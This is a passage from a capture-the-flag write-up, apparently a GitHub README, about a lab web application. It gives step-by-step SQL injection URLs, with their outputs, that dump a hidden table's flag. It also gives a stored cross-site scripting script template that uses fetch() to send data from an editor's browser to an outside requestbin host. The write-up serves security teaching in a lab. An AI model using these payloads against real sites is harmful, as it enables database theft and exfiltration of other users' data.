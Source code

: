    * [http://web.kazet.cc:31339/stats/2022 AND 1=2 UNION SELECT table_name, 1 FROM information_schema.columns where table_name not in ('domain_constraints', 'domain_udt_usage', 'table_constraints', 'role_column_grants', 'sql_sizing', 'user_defined_types', 'view_routine_usage', 'key_column_usage', 'column_column_usage', 'routine_sequence_usage', 'foreign_tables', 'element_types', 'applicable_roles', 'view_column_usage') and table_name not like 'pg%'--](<http://web.kazet.cc:31339/stats/2022 AND 1=2 UNION SELECT table_name, 1 FROM information_schema.columns where table_name not in ('domain_constraints', 'domain_udt_usage', 'table_constraints', 'role_column_grants', 'sql_sizing', 'user_defined_types', 'view_routine_usage', 'key_column_usage', 'column_column_usage', 'routine_sequence_usage', 'foreign_tables', 'element_types', 'applicable_roles', 'view_column_usage') and table_name not like 'pg%'-->)
   * Output: `table_name = interesting_and_secret_information`
4. Find some interesting column
   * [http://web.kazet.cc:31339/stats/2022 AND 1=2 UNION SELECT column_name, 1 from information_schema.columns where table_name = 'interesting_and_secret_information'--](<http://web.kazet.cc:31339/stats/2022 AND 1=2 UNION SELECT column_name, 1 from information_schema.columns where table_name = 'interesting_and_secret_information'-->)
   * Output: `column_name = secret_text_for_example_a_flag`
5. Find the flag (or rather the part of it :)
   * [http://web.kazet.cc:31339/stats/2022 AND 1=2 UNION SELECT secret_text_for_example_a_flag, 1 FROM interesting_and_secret_information--](<http://web.kazet.cc:31339/stats/2022 AND 1=2 UNION SELECT secret_text_for_example_a_flag, 1 FROM interesting_and_secret_information-->)
   * Output: `FLAG{this_is_a_long_and_interesting_flag_9393265140f32ff7...`
6. Find the remaining part of the flag
   * [http://web.kazet.cc:31339/stats/2022 AND 1=2 UNION SELECT SUBSTRING(secret_text_for_example_a_flag, 58, 100), 1 FROM interesting_and_secret_information--](<http://web.kazet.cc:31339/stats/2022 AND 1=2 UNION SELECT SUBSTRING(secret_text_for_example_a_flag, 58, 100), 1 FROM interesting_and_secret_information-->)
   * Output: `fc9f3b5bc9c065b3e6fdc4f4}`

# Flag \#3 - FLAG{752e8db03d875cfec6bdf8305756f1bb}
## Vulnerability
Cross-site scripting ([XSS](https://portswigger.net/web-security/cross-site-scripting)). In this specific case it's JS injection.

## Approach
After logging in the application we are able to create and send an article - http://web.kazet.cc:31339/send_article. We can see that after sending the article, the content is being sent to the editor for the review. It may be an opportuninty to attack the editor (who probably has more priviliges than us). We are going to send some malicious JS script which will be injected into editor's HTML and then executed on his side.<br/> <br/>
But we need to somehow follow the results of the code that is executed by editor. Let's create a simple [requestbin](https://requestbin.com/) container where "editor" will be sending the results to. In my case the requestbin can be accessed at https://eozy3pwhxz589s.m.pipedream.net. <br/><br/>
The blueprint of our malicious script will look like this:
```html
<script>
    // Do something as editor
    /* ... */

    // Store the results
    const data = { content: "Hello it's editor!!!" }; 

    // Send the results to our requestbin
    fetch('https://eozy3pwhxz589s.m.pipedream.net', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/json',
        },
        body: JSON.stringify(data),
    });
</script>
```
